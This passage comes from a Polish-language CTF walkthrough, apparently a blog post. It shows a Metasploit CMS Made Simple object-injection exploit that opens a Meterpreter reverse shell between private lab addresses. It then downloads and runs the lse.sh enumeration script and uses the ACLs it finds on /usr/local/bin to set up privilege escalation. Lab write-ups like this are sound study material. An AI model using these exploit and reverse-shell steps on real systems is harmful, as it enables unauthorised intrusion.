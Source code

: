 ```bash
msf6 exploit(multi/http/cmsms_object_injection_rce) > set password hasełko
# password => hasełko
msf6 exploit(multi/http/cmsms_object_injection_rce) > set rhosts 172.16.1.227
# rhosts => 172.16.1.227
msf6 exploit(multi/http/cmsms_object_injection_rce) > run -j
# [*] Exploit running as background job 0.
# [*] Exploit completed, but no session was created.

# [*] Started reverse TCP handler on 172.16.1.89:4444 
# msf6 exploit(multi/http/cmsms_object_injection_rce) > [*] Running automatic check ("set AutoCheck false" to disable)
# [+] The target appears to be vulnerable.
# [*] Sending stage (39927 bytes) to 172.16.1.227
# [+] Deleted zEAhHHutjN.php
# [*] Meterpreter session 1 opened (172.16.1.89:4444 -> 172.16.1.227:41228) at 2023-11-28 23:06:33 +0100
```
W w/w eksploicie jest wymagane podania loginu i hasła, ale za to mamy dostęp do **Shella**.
{: .text-justify}
# 05. Użytkownik www-data
Wchodząc na shella działamy na użytkowniku **www-data**, ale jest jeszcze drugi "ludź" w katalogu _/etc/home_ - _matthieu_. Trochę autor powrzucał na maszynę króliczych nor i różnej maści zmyłek, ale ważny jest skrypt _StaleFinder_ i katalog _/usr/local/bin_. Jest on pusty, co nasuwa pewne przypuszczenie. A znalazłem ten katalog za pomocą program **Lse**. Wystarczy ściągnąć i uruchomić.
```bash
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" && chmod 700 lse.sh && ./lse.sh -l 1
```
{: .text-justify}
```bash
# ...
# [!] fst160 Can we write to critical files?................................. nope
# [!] fst170 Can we write to critical directories?........................... nope
# [!] fst180 Can we write to directories from PATH defined in /etc?.......... yes!
# ---
# drwxrwx---+ 2 root root 4096 Nov 28 23:32 /usr/local/bin
# ---
# [!] fst190 Can we read any backup?......................................... nope
# [!] fst200 Are there possible credentials in any shell history file?....... nope
# [!] fst210 Are there NFS exports with 'no_root_squash' option?............. nope
# [*] fst220 Are there NFS exports with 'no_all_squash' option?.............. nope
# ...
```
Przyjrzyjmy się bardziej _/usr/local/bin_:
{: .text-justify}
```bash
getfacl /usr/local/bin
```
```bash
# getfacl: Removing leading '/' from absolute path names
# file: usr/local/bin
# owner: root
# group: root
# user::rwx
# user:www-data:rwx
# user:matthieu:r-x
# group::---
# mask::rwx
# other::---
```
Jak widzimy, użytkownik _www-data_ ma cały dostęp do tego katalogu. Skrypt _StaleFinder_ zaś wygląda tak:
{: .text-justify}